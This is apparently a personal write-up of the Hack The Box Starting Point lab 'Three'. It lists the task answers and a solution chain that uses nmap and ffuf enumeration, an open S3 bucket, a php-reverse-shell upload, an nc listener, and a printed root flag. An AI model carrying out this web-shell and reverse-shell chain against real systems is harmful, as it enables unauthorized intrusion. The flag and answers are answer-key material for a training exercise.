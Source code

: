 ```yaml
---
layout: post
title: "[HTB - Starting Point] Three"
date: 2022-10-18 09:00:00 +0800
categories: note
tags: [HTB]
---
```


## Task 1  
Q : How many TCP ports are open?  
``` text
[host] # nmap -sVC -p- --open <target_ip> -oA Three_full_scan
```
A : 2  

## Task 2  
Q : What is the domain of the email address provided in the "Contact" section of the website?  
A : thetoppers.htb  

## Task 3  
Q : In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?  
A : /etc/hosts  

## Task 4  
Q : Which sub-domain is discovered during further enumeration?  
``` text
[host] # echo "<target_ip>  thetoppers.htb" >> /etc/hosts
[host] # tgt_size=$(curl -s http://thetoppers.htb | wc -c)
[host] # ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb -H "Host: FUZZ.thetoppers.htb" -fs $tgt_size -mc all
```
A : s3.thetoppers.htb  

## Task 5  
Q : Which service is running on the discovered sub-domain?  
A : amazon s3  

## Task 6  
Q : Which command line utility can be used to interact with the service running on the discovered sub-domain?  
A : awscli  

## Task 7  
Q : Which command is used to set up the AWS CLI installation?  
A : aws configure  

## Task 8  
Q : What is the command used by the above utility to list all of the S3 buckets?  
A : aws s3 ls  

## Task 9  
Q : This server is configured to run files written in what web scripting language?  
``` text
[host] # aws --endpoint-url=http://s3.thetoppers.htb s3 ls
[host] # aws --endpoint-url=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
A : php  

## SUBMIT FLAG  
Q : Submit root flag  
``` text
get a php-reverse-shell script.
[host] # aws --endpoint=http://s3.thetoppers.htb s3 cp php-reverse-shell.php s3://thetoppers.htb
[host] # nc -nvlp <listen_port_in_php_reverse_shell>
browse http://<target_ip>/php-reverse-shell.php
(reverse-shell) $ find / -name flag.txt 2>/dev/null
(reverse-shell) $ cat /var/www/flag.txt
```
A : a980d99281a28d638ac68b9bf9453c2b  
